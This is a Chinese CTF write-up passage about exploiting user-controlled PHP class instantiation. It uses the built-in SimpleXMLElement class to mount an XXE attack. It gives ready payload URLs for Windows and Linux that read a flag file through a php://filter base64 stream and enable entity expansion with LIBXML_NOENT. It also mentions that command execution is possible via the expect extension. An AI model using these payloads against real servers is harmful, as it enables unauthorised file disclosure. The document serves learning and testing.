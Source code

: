 

实例化类的类名和传入类的参数均在用户的控制之下。攻击者可以通过该漏洞，调用PHP代码库的任意构造函数。即使代码本身不包含易受攻击的构造函数，我们也可以使用PHP的内置类 **SimpleXMLElement** 来进行 **XXE** 攻击，进而读取目标文件的内容，甚至命令执行（前提是安装了PHP拓展插件expect），我们来看一下PHP手册对 [**SimpleXMLElement**](https://www.php.net/manual/zh/simplexmlelement.construct.php) 类的定义：

![Image for post](https://miro.medium.com/max/1312/1*H6rj5C6Z7hz9FchcNC3mZw.png)



我们将会发现flag的文件名为 **f1agi3hEre.php** ，接下来我们使用内置类 **SimpleXMLElement** 读取 **f1agi3hEre.php** 文件的内容,，这里我们要结合使用PHP流的使用，因为当文件中存在： **< > & ‘ “** 这5个符号时，会导致XML文件解析错误，所以我们这里利用PHP文件流，将要读取的文件内容经过 **base64编码** 后输出即可，具体payload如下：



windows

```url
?name=SimpleXMLElement&para=?name=SimpleXMLElement&param=<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=D:\phpStudy\PHPTutorial\WWW\PSC2017\snowflake\f1agi3hEre.php">]><x>%26xxe;</x>&param2=2
```



**linux**

```url
http://localhost/CTF/index.php?name=SimpleXMLElement&param=<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/CTF/f1agi3hEre.php">]><x>%26xxe;</x>&param2=2
```

第二个参数实际上这里2对应的模式是 **LIBXML_NOENT**，因为在libxml>=2.9.0以后的版本默认不开启外部实体解析，需要添加这个参数开启。



![image-20200829103309104](assets/image-20200829103309104.png)
